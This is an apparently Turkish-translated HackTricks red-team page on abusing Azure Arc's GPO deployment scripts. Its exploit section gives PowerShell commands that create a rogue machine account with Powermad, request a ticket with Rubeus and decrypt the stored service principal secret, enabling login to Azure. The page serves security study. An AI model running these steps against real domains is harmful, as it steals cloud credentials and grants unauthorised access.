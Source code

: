 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc, yeni iç sunucuların (katılmış alan sunucuları) Azure Arc'a Grup Politika Nesnesi yöntemiyle entegrasyonuna olanak tanır. Bunu kolaylaştırmak için Microsoft, onboarding prosedürünü başlatmak için gerekli bir dağıtım araç seti sağlar. ArcEnableServerGroupPolicy.zip dosyasının içinde şu betikler bulunur: DeployGPO.ps1, EnableAzureArc.ps1 ve AzureArcDeployment.psm1.

DeployGPO.ps1 betiği çalıştırıldığında, aşağıdaki işlemleri gerçekleştirir:

1. Yerel alanda Azure Arc Sunucuları Onboarding GPO'sunu oluşturur.
2. EnableAzureArc.ps1 onboarding betiğini, onboarding süreci için oluşturulan belirlenen ağ paylaşımına kopyalar; bu paylaşım ayrıca Windows yükleyici paketini de içerir.

Bu betiği çalıştırırken, sistem yöneticileri iki ana parametre sağlamalıdır: **ServicePrincipalId** ve **ServicePrincipalClientSecret**. Ayrıca, alan, paylaşımı barındıran sunucunun FQDN'si ve paylaşım adı gibi diğer parametreler de gereklidir. Kiracı kimliği, kaynak grubu ve diğer gerekli bilgilerin de betiğe sağlanması gerekir.

Belirtilen paylaşımda AzureArcDeploy dizininde DPAPI-NG şifrelemesi kullanılarak şifrelenmiş bir gizli anahtar oluşturulur. Şifrelenmiş gizli anahtar, encryptedServicePrincipalSecret adlı bir dosyada saklanır. Bunun kanıtı, DeployGPO.ps1 betiğinde, şifrelemenin $descriptor ve $ServicePrincipalSecret girdileri ile ProtectBase64 çağrılarak gerçekleştirildiği yerde bulunabilir. Tanımlayıcı, Alan Bilgisayarı ve Alan Denetleyici grup SID'lerini içerir; bu, ServicePrincipalSecret'ın yalnızca Alan Denetleyicileri ve Alan Bilgisayarları güvenlik grupları tarafından şifresinin çözülebileceğini garanti eder, bu durum betik yorumlarında belirtilmiştir.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Aşağıdaki koşullara sahibiz:

1. İç ağa başarıyla sızdık.
2. Active Directory içinde bir bilgisayar hesabı oluşturma veya kontrol etme yeteneğine sahibiz.
3. AzureArcDeploy dizinini içeren bir ağ paylaşımını keşfettik.

AD ortamında bir makine hesabı elde etmenin birkaç yöntemi vardır. En yaygın olanlardan biri makine hesabı kotasını istismar etmektir. Diğer bir yöntem, savunmasız ACL'ler veya çeşitli diğer yanlış yapılandırmalar aracılığıyla bir makine hesabını tehlikeye atmaktır.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Bir makine hesabı elde edildikten sonra, bu hesapla kimlik doğrulamak mümkündür. Ya netonly bayrağı ile runas.exe komutunu kullanabiliriz ya da Rubeus.exe ile pass-the-ticket yöntemini kullanabiliriz.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Bellek içinde bilgisayar hesabımız için TGT'ye sahip olarak, hizmet ilkesi gizli anahtarını şifre çözmek için aşağıdaki betiği kullanabiliriz.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatif olarak, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) kullanabiliriz.

Bu noktada, şifrelenmişServicePrincipalSecret dosyasıyla aynı ağ paylaşımında saklanan ArcInfo.json dosyasından Azure'a bağlanmak için gereken kalan bilgileri toplayabiliriz. Bu dosya, TenantId, servicePrincipalClientId, ResourceGroup ve daha fazlası gibi ayrıntıları içerir. Bu bilgilerle, tehlikeye atılmış hizmet ilkesi olarak kimlik doğrulamak için Azure CLI'yi kullanabiliriz.

## Referanslar

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}

